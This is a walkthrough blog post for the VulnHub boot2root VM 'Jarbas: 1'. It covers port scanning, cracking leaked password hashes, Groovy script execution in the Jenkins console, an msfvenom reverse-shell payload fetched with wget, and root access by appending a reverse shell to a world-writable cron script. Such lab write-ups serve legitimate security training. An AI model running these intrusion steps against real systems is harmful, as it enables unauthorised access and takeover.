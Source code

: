 ```yaml
---
layout: post
date: 2018-08-03 12:16:52 +0000
last_modified_at: 2018-08-03 12:30:22 +0000
title: "Jarbas: 1 Walkthrough"
subtitle: "Those Were the Days"
category: Walkthrough
tags: [VulnHub, "LazySysAdmin"]
comments: true
image:
  feature: jarbas-1-walkthrough.jpg
  credit: Free-Photos / Pixabay
  creditlink: https://pixabay.com/en/books-library-education-literature-768426/
---
```


This post documents the complete walkthrough of Jarbas: 1, a boot2root [VM][1] created by [Tiago Tavares][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

A tribute to a nostalgic Brazilian search engine in the end of 90’s. The aim is to get a `root` shell.

### Information

Let’s start with a nmap scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.10.130
...
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 28:bc:49:3c:6c:43:29:57:3c:b8:85:9a:6d:3c:16:3f (RSA)
|   256 a0:1b:90:2c:da:79:eb:8f:3b:14:de:bb:3f:d2:e7:3f (ECDSA)
|_  256 57:72:08:54:b7:56:ff:c3:e6:16:6f:97:cf:ae:7f:76 (ED25519)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Jarbas - O Seu Mordomo Virtual!
3306/tcp open  mysql   syn-ack ttl 64 MariaDB (unauthorized)
8080/tcp open  http    syn-ack ttl 64 Jetty 9.4.z-SNAPSHOT
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

`nmap` finds `22/tcp`, `80/tcp`, `3306/tcp`, and `8080/tcp` open. Nothing unusual here.

### Directory/File Enumeration

Let's use `wfuzz` to determine any directories or files of interest. I use the following options.

```
# export WORDLIST=/usr/share/wfuzz/wordlists/general
# wfuzz -w $WORDLIST/megabeast.txt -w $WORDLIST/extensions_common.txt --hc 404 -t 64 http://192.168.10.130/FUZZFUZ2Z
```

Here's the result of running the command.

```
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://192.168.10.130/FUZZFUZ2Z
Total requests: 1272964

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

009671:  C=200     13 L	      28 W	    359 Ch	  "access - .html"
582568:  C=200   1006 L	    4983 W	  74409 Ch	  "icons - /"
600443:  C=200    403 L	    1784 W	  32808 Ch	  "index - .html"
```

Here's what `access.html` looks like.

![access.html](/assets/images/posts/jarbas-1-walkthrough/01cca602.png)

The usernames and password hashes is a clear invitation to perform offline password cracking.

### Jenkins

**John the Ripper** can crack the password hashes as follows.

```
# john --format=raw-md5 --show hashes.txt
tiago:italia99
trindade:marianna
eder:vipsu

3 password hashes cracked, 0 left
```

It turns out that Jenkins is running behind `8080/tcp` seen earlier in the `nmap` scan. Here's what it looks like.

![Jenkins](/assets/images/posts/jarbas-1-walkthrough/fd1eb8f9.png)

The credential (`eder:vipsu`) allows us to login in to Jenkins.

![Logged In](/assets/images/posts/jarbas-1-walkthrough/9e1fb477.png)

I soon discover that Jenkins allows the execution of Groovy scripts in **Script Console**.

![Script Console](/assets/images/posts/jarbas-1-walkthrough/7507d3e1.png)

### Groovy Script

According to Wikipedia,

> Apache Groovy is a Java-syntax-compatible object-oriented programming language for the Java platform. It is both a static and dynamic language with features similar to those of Python, Ruby, Perl, and Smalltalk. It can be used as both a programming language and a scripting language for the Java Platform, is compiled to Java virtual machine (JVM) bytecode, and interoperates seamlessly with other Java code and libraries.

The console is able to execute shell commands like so.

![id](/assets/images/posts/jarbas-1-walkthrough/407406c2.png)

The result above shows the output of running `id`. We are executing shell commands in the context of the `jenkins` account.

Let's see if we can execute `wget` to get ourselves a shell.

![wget](/assets/images/posts/jarbas-1-walkthrough/df946598.png)

Awesome. Now, we can transfer a reverse shell executable over. But, before we do that, we need to determine if we are dealing with a 32-bit or 64-bit OS.

![uname -a](/assets/images/posts/jarbas-1-walkthrough/c08a81a2.png)

Let's generate the reverse shell on our attacking machine:

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.10.128 LPORT=4444 -f elf -o rev
```

We can now set up `SimpleHTTPServer` on our attacking and transfer it over with `wget` at the **Script Console**.

_On our attacking machine_

![wget](/assets/images/posts/jarbas-1-walkthrough/c842c9da.png)

_At the **Script Console**_

![wget](/assets/images/posts/jarbas-1-walkthrough/89ef4e95.png)

Remember to make the `/tmp/rev` executable with `chmod +x /tmp/rev`.

![ls](/assets/images/posts/jarbas-1-walkthrough/18f4e608.png)

We should be good to go. Let's run our `netcat` listener and execute `/tmp/rev` at the console.

![shell](/assets/images/posts/jarbas-1-walkthrough/40bd5800.png)

We have shell.

### Privilege Escalation

I had my hopes pinned on [CVE-2017-1000253](https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.txt) from the get-go.

![CentOS](/assets/images/posts/jarbas-1-walkthrough/0e4bacad.png)

The VM is running on CentOS 7 with a 3.10 kernel. The conditions are almost identical to CVE-2017-1000253.

Too bad the VM is one version shy of being vulnerable. I've no choice but to look for other ways to gain root access.

During the process of checking for world-writable files in the VM, I stumbled upon this.

```
$ find / -type f -perm /o+w -ls 2>/dev/null
...
844412    4 -rwxrwxrwx   1 root     root           50 Apr  1 14:00 /etc/script/CleaningScript.sh
```

![CleaningScript.sh](/assets/images/posts/jarbas-1-walkthrough/d9f3a650.png)

If I've to guess from its content, I'd say this is probably run under `root`'s `crontab`.

Let's append our reverse shell to the script.

![rev](/assets/images/posts/jarbas-1-walkthrough/4b94503e.png)

Boom. A `root` shell.

![root](/assets/images/posts/jarbas-1-walkthrough/d710bca7.png)

My guess was right.

![crontab](/assets/images/posts/jarbas-1-walkthrough/2198ba7e.png)

### Eyes on the Prize

Getting the flag is trivial.

![flag](/assets/images/posts/jarbas-1-walkthrough/bad0fdf5.png)

:dancer:

[1]: https://www.vulnhub.com/entry/jarbas-1,232/
[2]: https://twitter.com/@tiagotvrs
[3]: https://www.vulnhub.com/
